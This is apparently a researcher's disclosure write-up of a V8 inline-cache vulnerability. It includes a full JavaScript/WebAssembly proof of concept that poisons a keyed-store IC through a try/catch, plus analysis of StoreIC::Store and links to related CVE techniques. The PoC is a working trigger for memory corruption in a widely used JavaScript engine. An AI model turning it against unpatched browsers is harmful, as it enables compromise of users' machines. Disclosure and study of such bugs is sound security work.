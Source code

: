 author: [@mistymntncop](https://x.com/mistymntncop), [@buptsb](https://x.com/buptsb)
2024-06-04 19:45:52

https://x.com/buptsb/status/1797961291946205386

_This writeup is the FIRST public disclosure for this vulnerability._

# Info
[ic] Use slow stub element handler for non-JSObjects
https://chromium-review.googlesource.com/c/v8/v8/+/5527898

![image](https://github.com/buptsb/blog/assets/666724/822a138e-2e18-4a40-ae07-17661fb83baa)

# PoC
https://gist.github.com/mistymntncop/b6599b24cf57fb1b5c5be63a2f702015

```js
d8.file.execute("wasm-module-builder.js");

let builder = new WasmModuleBuilder();

let array_type = builder.addArray(kWasmI32, true);
builder.addFunction('create_array', makeSig([kWasmI32], [wasmRefType(array_type)]))
    .addBody([
        kExprLocalGet, 0,
        kGCPrefix, kExprArrayNewDefault, array_type,
    ])
.exportFunc();

let wasm_instance = builder.instantiate({});
let wasm = wasm_instance.exports;


function set_keyed_prop(arr, key, val) {
    arr[key] = val;
}

function pwn() {
    for(let i = 0; i < 9; i++) {
        set_keyed_prop([], 0, 0x1337);
    }
    let wasm_array = wasm.create_array(0);

    try {
        set_keyed_prop(wasm_array, "foo", 0x1337);
    } catch(err){ }
    set_keyed_prop([], 0, 0x1337);
    
    %DebugPrint(set_keyed_prop);
    
    try {
        set_keyed_prop(wasm_array, 0, 0x1337);
    } catch(err){ }
    
}
pwn();
```
![image](https://github.com/buptsb/blog/assets/666724/c3a5b520-c05e-465d-ad01-9c148a59941f)

# Analysis

## using try...catch to set IC handler

As we all know, set property on `WasmObjects` would throw `MessageTemplate::kWasmObjectsAreOpaque` error.

But `UpdateCaches` is called before `Object::SetProperty`, so we could add `WasmObject` to IC just with a try...catch to suppress the error.

```C++
MaybeHandle<Object> StoreIC::Store(Handle<Object> object, Handle<Name> name,
                                   Handle<Object> value,
                                   StoreOrigin store_origin) {
  ...
  if (use_ic) {
    UpdateCaches(&it, value, store_origin);    <------ 1
  } else if (state() == NO_FEEDBACK) {
    ...
  }

  if (IsAnyDefineOwn()) {
    ...
  } else {
    MAYBE_RETURN_NULL(Object::SetProperty(&it, value, store_origin)); <------ 2
  }
}
```

## polymorphic IC exploit

Please checkout [@mistymntncop](https://x.com/mistymntncop)'s writeup about [CVE-2023-3079](https://github.com/mistymntncop/CVE-2023-3079), and my poc about [CVE-2023-4762](https://x.com/buptsb/status/1706984650927968501),
it's basicly same exploit technique using v8 polymorphic IC, can't believe it's still exploitable!

